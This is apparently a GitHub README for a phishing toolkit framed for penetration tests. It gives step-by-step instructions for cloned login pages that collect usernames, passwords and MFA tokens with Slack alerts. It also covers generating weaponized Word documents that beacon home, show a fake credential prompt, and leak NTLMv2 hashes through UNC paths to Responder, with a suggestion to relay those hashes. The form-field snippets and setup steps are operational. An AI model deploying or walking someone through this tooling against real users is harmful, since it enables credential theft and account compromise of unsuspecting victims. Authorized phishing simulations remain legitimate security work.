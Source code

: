 # Phishing-API
This API has two main features.  One allows you to easily deploy cloned landing pages for credential stealing and the other feature is weaponized Word doc creation.  Both are integrated into Slack for real-time alerting.  There's a free service I'm running with a similiar code-base at https://phishapi.com.  


## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well so if you're running Responder in a background session you can capture NTLMv2 hashes and be notified via Slack!  Support for weaponizing your own Word doc templates is built in.  Just upload an existing doc and download it again to hook it.  You can also choose to use Basic Auth which prompts the user for credentials, just like Phishery does!


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (Configure DNS MASKED Forwarding Instead of an A Name Record for Best Results)



# 1) To Use the API for Capturing Credentials from Fake Sites : 

Rapid & Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	(OPTIONAL MFA FIELD)  `<INPUT NAME="token">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials

<p align="center">
<img src="https://i.imgur.com/L8yYRMQ.png" width="75%">
<b>Figure 1: Someone Entered Credentials into the Fake Portal - Slack Alert</b>
<br/><br/></p>
                  
<p align="center">           
<img src="https://i.imgur.com/2ayiRRW.png">
<b>Figure 2: Clicking the Slack Link Allows Viewing Credentials</b>
<br /><br/>
</p>

# 2) To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Create /var/www/uploads Path and make sure your web user has sudoers access

3) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

4) Optionally set up [Responder](https://github.com/SpiderLabs/Responder "Responder") in a background process and run `phishinghashes.sh` every minute or so with cron

5) Set up your php.ini to allow uploads of at least 15MB and enable browsecap.ini for parsing UserAgent strings, otherwise some functionality may be limited.  

6) Email your doc and wait for the Slack alerts!

**Bonus points if you use your docs as honeypot bait! :)**

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/LW4BUjN.png">
<b>Figure 1: Web Based Payload Generation - Create New Doc or Upload Existing w/ Payload Options</b>
</p>
                  
            
<br /><br/>
<p align="center">
<img src="https://i.imgur.com/Sx1b1Z5.png">
<b>Figure 2: Opening Document Generated (New) by Service</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/sw8JWQE.png" width="40%">
<b>Figure 3: If "Auth Prompt" is Selected in Payload Options, Display Basic Auth Prompt to User for Credential Capturing</b>
</p>
                  

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/FXdDm6t.png" width="75%">
<b>Figure 4: HTTP Beacon is Selected by Default and Alerts When the Target Opens the Document</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/ku6UTNI.png" width="75%">
<b>Figure 5: If Credentials are Entered from Figure 3 Above, Notify via Slack When Captured</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/JJJWTnZ.png">
<b>Figure 6: Clicking on the Slack Alert Displays Captured Details (Hashes, Credentials, Client Details)</b>
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/qZFGmXA.png">
<b>Figure 7: Slack Alert when UNC/SMB Hashes are Received</b>
</p>


<br /><br/>
<p align="center">
<b>Currently, I'm running [Responder](https://github.com/SpiderLabs/Responder "Responder") in a Screen session with `phishinghashes.sh` scheduled via Cron to run every minute to pick up hashes, correlate phished users, and alert via Slack.  You can also relay those hashes with another tool if you'd like to take things even further.  Enjoy! :)</b></p>
